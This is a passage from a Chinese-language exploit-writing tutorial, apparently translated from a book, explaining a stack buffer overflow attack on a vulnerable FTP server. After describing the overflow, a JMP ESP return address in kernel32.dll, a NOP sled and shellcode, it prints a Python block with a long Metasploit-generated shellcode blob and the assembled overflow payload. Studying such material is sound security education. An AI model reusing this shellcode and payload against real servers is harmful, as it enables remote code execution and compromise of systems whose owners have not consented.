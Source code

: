 在存在很多种编写 exploit 方法的今天，基于堆栈缓冲区溢出的方法提供了原始的 exploit 向量。而且大量的 exploit 还在增加。2011 年 7 月，我的一个朋友发布了一个针对脆弱的 FTP 服务器的 exploit。虽然开发 exploit 似乎是一个很复杂的任务，但实际的攻击代码却少于 80 行(包含约 30 行的 shell 代码)。

## 添加攻击的关键元素

让我们开始构建我们的 exploit 的关键元素。首先我们设置我们的 shellcode 变量包含 Metasploit 框架为我们生成的十六进制编码的攻击荷载。接下来我们设置我们的溢出变量包含 246 个字母 A 的实例(16 进制为`\x41`)。我们返回的地址变量指向一个`kernel.dll`地址，包含了一个直接跳到栈顶端的指令。我们填充包含一系列 150 个`NOP`指令的变量。这构建了我们的 NOP 滑铲。最后我们集合所有的变量组成一个变量，我们称为碰撞。

## 基于堆栈缓冲区溢出 exploit 的基本要素

溢出：用户的输入超过了预期在栈中分配的值。

返回地址：被用来直接跳转到栈顶端的 4 个字节的地址。在接下来的 exploit 中，我们用 4 个字节的地址指向`kernel.dll`的`JMP ESP`指令。

填充物：在 shellcode 之前的一系列的`NOP`(空指令)指令。允许攻击者猜测直接跳到的地址。如果攻击者跳到`NOP`滑铲的任何地方，它将直接滑到 shellcode。

Shellcode：一小段汇编机器码。在下面的例子中，我们将利用 Metasploit 生成 Shellcode 代码。

```
shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
    "\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
    "\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
    "\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
    "\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
    "\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
    "\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
    "\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
    "\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
    "\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
    "\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
    "\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
    "\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
    "\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
    "\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"
    "\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
    "\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
    "\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
    "\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
    "\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
    "\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
    "\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
    "\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
    "\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
    "\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
    "\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
    "\xba\x1e\x53\x31")
overflow = "\x41" * 246
ret = struct.pack('&lt;L', 0x7C874413)  #7C874413 JMP ESP kernel32.dll
padding = "\x90" * 150
crash = overflow + ret + padding + shellcode 
```
